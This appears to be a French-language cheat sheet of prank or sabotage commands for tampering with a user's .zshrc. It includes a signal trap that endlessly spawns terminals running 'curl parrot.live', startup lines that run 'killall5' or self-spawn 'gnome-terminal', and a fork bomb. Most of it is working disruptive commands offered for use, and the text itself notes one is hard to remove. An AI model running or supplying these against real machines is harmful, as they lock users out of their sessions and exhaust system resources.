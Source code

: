 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```

```echo "trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live" >> .zshrc && source .zshrc````


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA MAIS QUAND MEME BELEK JSP COMMENT ENLEVER /!\

```nano .zshrc``` -> a la toute fin mettre : ```killall5```
```source .zshrc```

[-------------------------------------------------------------]
```nano .zshrc``` -> a la toute fin mettre : ```gnome-terminal```
```source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```
